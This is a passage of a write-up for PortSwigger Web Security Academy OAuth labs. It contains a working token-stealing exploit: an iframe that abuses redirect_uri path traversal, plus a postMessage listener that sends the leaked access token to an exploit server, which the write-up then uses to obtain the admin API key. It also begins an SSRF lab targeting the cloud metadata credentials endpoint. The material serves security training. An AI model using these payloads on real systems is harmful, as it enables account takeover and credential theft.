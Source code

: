 It allows messages to be posted to any origin (\*).

**Exploit Server ->**

```
Body:

<iframe src="https://oauth-ac9f1f471ecbec65c04b1288023000c6.web-security-academy.net/auth?client_id=dkee764030032tgvfonrs&redirect_uri=https://ac041f581ee6ec0ac0ec123800d40062.web-security-academy.net/oauth-callback/../post/comment/comment-form&response_type=token&nonce=-1552239120&scope=openid%20profile%20email"></iframe>
<script>
  window.addEventListener('message', function(e) {
    fetch("/" + encodeURIComponent(e.data.data))
  }, false)
</script>
```

**Exploit Server -> Access log**

`"GET /https%3A%2F%2Fac041f581ee6ec0ac0ec123800d40062.web-security-academy.net%2Fpost%2Fcomment%2Fcomment-form%23access_token%3D`**`TnYAMSv3j2tKOKHmug3PMQwx0G7FoQixp85yQDofVJ6`**`%26expires_in%3D3600%26token_type%3DBearer%26scope%3Dopenid%2520profile%2520email HTTP/1.1`

**Solution:**

```
GET /me HTTP/1.1
Host: oauth-ac9f1f471ecbec65c04b1288023000c6.web-security-academy.net
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="96"
Authorization: Bearer TnYAMSv3j2tKOKHmug3PMQwx0G7FoQixp85yQDofVJ6

The response:
{"sub":"administrator","apikey":"7IqMPxwfliixOAy2k3kcCn1SCrIExo8E","name":"Administrator","email":"administrator@normal-user.net","email_verified":true}
```

### Lab: SSRF via OpenID dynamic client registration

This lab allows client applications to dynamically register themselves with the OAuth service via a dedicated registration endpoint. Some client-specific data is used in an unsafe way by the OAuth service, which exposes a potential vector for SSRF.

To solve the lab, craft an SSRF attack to access http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/ and steal the secret access key for the OAuth provider's cloud environment.

`GET /auth?client_id=cecz0cs3w2afaspy8i061&redirect_uri=https://acfc1fba1ebcc6fec00a0dc400ef001f.web-security-academy.net/oauth-callback&response_type=code&scope=openid%20profile%20email HTTP/1.1`

```
https://oauth-ac651f251fccadfcc08a508702c20078.web-security-academy.net/.well-known/openid-configuration

In the page contents:
"registration_endpoint":"https://oauth-ac651f251fccadfcc08a508702c20078.web-security-academy.net/reg"
```
